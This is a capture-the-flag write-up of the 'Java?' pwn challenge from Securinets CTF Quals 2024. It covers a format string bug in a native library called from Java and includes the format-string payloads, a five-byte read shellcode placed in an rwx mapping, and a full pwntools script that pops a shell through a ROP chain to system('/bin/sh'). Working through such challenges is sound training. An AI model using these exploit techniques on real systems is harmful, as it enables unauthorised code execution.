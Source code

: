 +++
title = 'Java? - Securinets CTF Quals 2024'
date = 2024-10-21T10:02:00+02:00
draft = false
+++

last week we qualified for securinets finals. Java? was a pwn challenge I blooded.
we were given a java program, which reads input three times and passes it to a library:
```java
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;

public class Main {

   private String first = "";
   private String second = "";
   private String last = "";

   static {
      System.loadLibrary("Lib");
   }

   public native void Kabom();
   public native void Setup();

   public static void main(String[] args) throws IOException{
      BufferedReader reader = new BufferedReader(new InputStreamReader(System.in));
      Main me = new Main();

      me.Setup();

      //System.out.println("If I give you a gift, will you give me the right input? ");
      //me.Gift();

      System.out.println("And I'll give you 3 bullets");

      System.out.println("First shot: ");
      me.first = reader.readLine();

      System.out.println("Second shot: ");
      me.second = reader.readLine();

      System.out.println("Last shot: ");
      me.last = reader.readLine();

      me.Kabom();
   }
}
```
the library provided prints the three inputs with `printf`, resulting in a format string vuln.
```c
strncpy(dest, v11, 0x1DuLL);
*(_WORD *)&dest[strlen(dest)] = 46;
printf(dest);
memset(dest, 0, 0x3CuLL);
strncpy(dest, v12, 0x10uLL);
*(_WORD *)&dest[strlen(dest)] = 46;
printf(dest);
memset(dest, 0, 0x3CuLL);
strncpy(dest, v13, 0x1CuLL);
*(_WORD *)&dest[strlen(dest)] = 46;
printf(dest):
```
we get three "shots", however they are all printed at the same time and heavily restricted in size.
I noticed that the stack randomization was pretty odd, since the lower 2 bytes weren't randomized at all.

to our advantage, we had pointers on the stack, that in turn pointed to other stack pointers.
given that, we can write to those pointers to create references to the saved rip, which I managed
to do within the first `printf`. that way we can write to them in later `printf`s to get rip control.
```py
p.sendlineafter(b"shot:", b"%88c%22$hhn%4c%32$hhn|%228$p|")
```
this allows us to get a libc leak as well, which will be important for later.

as already said, the next step is to overwrite the saved return address. interestingly enough,
there is a `rwx` memory mapping at `0x800000000` in the address space of the java program.

it isn't affected by aslr, plus there are some pointers to it on the stack. so I figured it'd
be a nice target to overwrite rip with. the following line writes `0x800000000` into saved rip:
```py
p.sendlineafter(b"shot:", b"%28$n%8c%32$n")
```
again, a perfect fit! we still got a last write tho, so now is the time to write the shellcode.
the address `0x800000000` is on the stack (because we wrote it before), as well as `0x800000002`.

so we can write two bytes (or three into the second one) into each address to get 4 to 5 bytes of shellcode.
the following 5-byte shellcode seems to do the job:
```
pop rdi
pop rdx
syscall 
ret
```
-   `rdi` will contain `0`, which is the `fd` for `read` syscall
-   `rdx` will contain a large value, allowing us to read many bytes of data


to our luck, `rax` is `0` (syscall number for `read`), and `rsi` points to the stack before saved rip!
after writing the shellcode, it is immedeately executed and we can read a bunch of data and overwrite ret.
using the libc leak we got in the first step, we can call `system("/bin/sh")`:
```py
from pwn import *

p = process(["./run.sh"])

p.sendlineafter(b"shot:", b"%88c%22$hhn%4c%32$hhn|%228$p|")
p.sendlineafter(b"shot:", b"%28$n%8c%32$n")
p.sendlineafter(b"shot:", b"%23135c%29$n%12757680c%165$n")

p.recvuntil(b"|")
libc_leak = int(p.recvuntil(b"|")[:-1], 16)
libc_base = libc_leak - 0x947d0
system = libc_base + 0x50d70
binsh = libc_base + 0x1d8698
pop_rdi = libc_base + 0x2a3e5
ret = libc_base + 0x29139

p.sendline(p64(ret)*0x500 + p64(pop_rdi) + p64(binsh) + p64(system))

p.interactive()
```